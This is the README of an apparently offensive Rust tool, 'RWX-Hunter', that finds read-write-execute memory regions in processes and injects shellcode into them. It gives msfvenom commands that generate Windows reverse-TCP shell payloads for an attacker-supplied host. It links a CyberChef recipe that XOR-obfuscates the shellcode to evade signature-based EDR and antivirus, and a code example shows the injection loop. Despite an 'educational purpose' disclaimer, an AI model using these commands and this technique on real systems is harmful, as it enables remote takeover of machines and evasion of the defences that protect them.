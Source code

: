 # RWX-Hunter


Enumerating RWX Protected Memory Regions for Code Injection.

[!NOTE]
Developed with the intension of using this tool only for educational purpose.

Generate shellcode (example):

msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f num LHOST=\<IP\> LPORT=\<PORT\>\
msfvenom -p windows/shell_reverse_tcp -a x86 -f num LHOST=\<IP\> LPORT=\<PORT\>

Obfuscate it with static xor key for signature based EDR/AV (example key: 0xC 0x3 0xFA 0x8 0x3)
<https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'Hex','string':'0xC0x30xFA0x80x3'%7D,'Standard',false)To_Hex('0x%20with%20comma',0)Find_/_Replace(%7B'option':'Simple%20string','string':','%7D,',%20',true,false,true,false)&oeol=FF>

Inspired by: <https://www.ired.team/offensive-security/defense-evasion/finding-all-rwx-protected-memory-regions>

## Example

```rust
let mut hunter = RWXhunter::new(vec![0], vec![0], vec![12, 3, 250, 8, 3].into());
while hunter.find_next_candidate().is_ok() {
    if hunter.inject().is_ok() {
        return Ok(());
    }
}
```

## Installation

```bash
cargo run
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)

